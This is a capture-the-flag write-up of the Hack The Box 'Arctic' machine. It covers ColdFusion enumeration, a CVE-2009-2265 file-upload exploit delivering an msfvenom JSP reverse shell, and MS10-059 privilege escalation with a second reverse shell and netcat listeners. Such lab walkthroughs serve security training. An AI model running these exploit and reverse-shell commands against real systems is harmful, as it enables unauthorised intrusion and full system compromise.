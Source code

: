 ```yaml
---
layout: post
title: Arctic
tags: [OSCP, Writeup, Windows, Java, Web, Arbitrary File Upload, Patch Management]
description: "Arctic write-up"
---
```


![Arctic logo](/assets/imgs/arctic/arctic.png)

### This is an easy windows box

## Tools used

------

- copy
- msfvenom
- nc
- nmap
- python
- smbserver
- systeminfo
- wget
- windows-exploit-suggester


## Reconnaissance

------

### Nmap

```
nmap -sC -sV -oA arctic 10.10.10.11 -v -Pn

PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Here’s what nmap teaches us :

- 3 ports are open

Among those three ports, I don't really know any of them ! It took me a bit of time before founding that port 8500 here was a web port.

![Index of port 8500](/assets/imgs/arctic/index_of.PNG)

Searching Google about those two folder, I found out that it was powered by ColdFusion, during my research I stumbble opon this presentation about pentesting ColdFusion : [https://www.carnal0wnage.com/papers/LARES-ColdFusion.pdf](https://www.carnal0wnage.com/papers/LARES-ColdFusion.pdf). Page 44, there is a way to get the exact version install :

![Coldfusion version](/assets/imgs/arctic/version.PNG)

Now that I have the version, let's search for known exploits :

![Arctic logo](/assets/imgs/arctic/searchsploit_coldfusion.PNG)

There is a Metasploit module for an Arbitrary FIle Upload so I searched on Google for it and found this python script, that I download :

```
wget https://repo.theoremforge.com/pentesting/tools/-/raw/01a0616a6e09c9dbf42d731261309109443cc3e6/Uncategorized/exploit/windows/CVE-2009-2265_coldfusion.8.0.1/upload.py
```

## Exploit

------

Reading the code, I need a jsp payload, generate one :

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.10 LPORT=1234 -f raw > shell.jsp
```

Start a nc listener :

```
nc -lvp 1234
```

Then exploit :

```
python upload.py 10.10.10.11 8500 ./shell.jsp
```

Go to the listener :

```
nc -lvp 1234        
listening on [any] 1234 ...
10.10.10.11: inverse host lookup failed: Unknown host
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.11] 49834
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>whoami
whoami
arctic\tolis
```

Nice, it works, I'm now on the machine. Let's get the systeminfo to use with windows-exploit-suggester. I run the following command and copy/paste the results into a file over my machine :

```
systeminfo
```

Update the tool :

```
python windows-exploit-suggester.py --update
[*] initiating winsploit version 3.3...
[+] writing to file 2020-07-29-mssb.xls
[*] done
```

Then run it with the newly created database and the systeminfo file :

```bash
python windows-exploit-suggester.py --database 2020-07-29-mssb.xls --systeminfo systeminfo
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (utf-8)
[*] querying database file for potential vulnerabilities
[*] comparing the 0 hotfix(es) against the 197 potential bulletins(s) with a database of 137 known exploits
[*] there are now 197 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2008 R2 64-bit'
[*] 
[M] MS13-009: Cumulative Security Update for Internet Explorer (2792100) - Critical
[M] MS13-005: Vulnerability in Windows Kernel-Mode Driver Could Allow Elevation of Privilege (2778930) - Important
[E] MS12-037: Cumulative Security Update for Internet Explorer (2699988) - Critical
[*]   http://www.exploit-db.com/exploits/35273/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5., PoC
[*]   http://www.exploit-db.com/exploits/34815/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5.0 Bypass (MS12-037), PoC
[*] 
[E] MS11-011: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (2393802) - Important
[M] MS10-073: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (981957) - Important
[M] MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) - Critical
[E] MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important
[E] MS10-047: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (981852) - Important
[M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
[M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical
[*] done
```

I can see 4 non-Metasploit exploits. MS12-037 is about Internet Explorer, I don't care, I tried MS11–011 but I didn’t get a privileged shell. MS10–059 did work ! I found an already compiled executable for it here [https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059).

```
wget https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS10-059/MS10-059.exe
```

Start a smbserver for easy transfer :

```
sudo smbserver.py liodeus ./
```

Copy over the exploit :

```
copy \\10.10.14.10\liodeus\MS10-059.exe .
```

Start another nc listener :

```
nc -lvp 12345
```

Then launch the exploit like so :

```
MS10-059.exe 10.10.14.10 12345
```

Go see the listener :

```
nc -lvp 12345
listening on [any] 12345 ...
10.10.10.11: inverse host lookup failed: Unknown host
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.11] 50366
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\tolis\Desktop>whoami
whoami
nt authority\system
```

And voila ! I'm nt authorit\system, go read the flags now !

## Flags

------

### User.txt

```
C:\Users\tolis\Desktop>type user.txt
type user.txt
02650d3a69a70780c302e146a6cb96f3
```

### Root.txt

```
C:\Users\Administrator\Desktop>type root.txt
type root.txt
ce65ceee66b2b5ebaff07e50508ffb90
```
